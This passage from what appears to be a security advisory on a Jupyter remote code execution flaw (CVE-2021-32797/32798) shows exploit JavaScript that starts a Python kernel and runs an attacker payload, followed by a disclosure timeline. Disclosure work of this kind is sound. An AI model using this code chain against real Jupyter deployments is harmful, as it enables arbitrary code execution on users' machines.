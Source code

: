 ```javascript
  }
}
```

The remaining part is to start the kernel and execute the python payload.
```javascript
function start_kern(srv) {
  return (new srv.KernelManager()).startNew({name: 'python'});
}
function exec_python(kernel) {
  kernel.requestExecute({code: python_payload}, true);
}
```

### Timeline
**Date reported**: 20 Jul 2021
**Date fixed**: 5 August 2021
**Date disclosed**: 9 August 2021 https://blog.jupyter.org/cve-2021-32797-and-cve-2021-32798-remote-code-execution-in-jupyterlab-and-jupyter-notebook-a70fae0d3239
